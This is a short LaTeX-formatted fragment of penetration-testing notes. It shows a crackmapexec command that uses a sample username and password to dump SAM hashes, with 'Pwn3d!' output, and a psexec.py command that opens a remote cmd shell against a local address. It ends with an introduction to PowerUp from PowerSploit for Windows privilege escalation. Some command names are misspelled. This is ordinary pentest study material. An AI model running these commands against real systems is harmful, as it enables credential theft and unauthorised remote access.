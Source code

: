 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{enumerate}
\begin{itemize}
\begin{itemize}
\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smp -u }\StringTok{'looping'}\NormalTok{ -p }\StringTok{'looping123!'}\NormalTok{ --sam}

\CommentTok{#OUTPUT}
\ExtensionTok{SMB}\NormalTok{ 127.0.0.1   445 MACHINENAME [*] machinename\textbackslash{}looping:looping123! (Pwn3d!)}
\end{Highlighting}
\end{Shaded}
    \end{itemize}
  \item
    Connect to machine with psexec.python

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ psexex.py}
\ExtensionTok{psexec.py}\NormalTok{ WORKGROUP/looping@127.0.0.1 cmd.exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}

\hypertarget{system-enumeration-with-powerup-for-privesc}{%
\section*{System enumeration with PowerUp for Privesc}\label{system-enumeration-with-powerup-for-privesc}}

\textbf{PowerUp} is a script from the PowerSploit Library. PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration
testers during all phases of an assessment.

\href{https://github.com/PowerShellMafia/PowerSploit}{PowerSploit github}
\end{document}
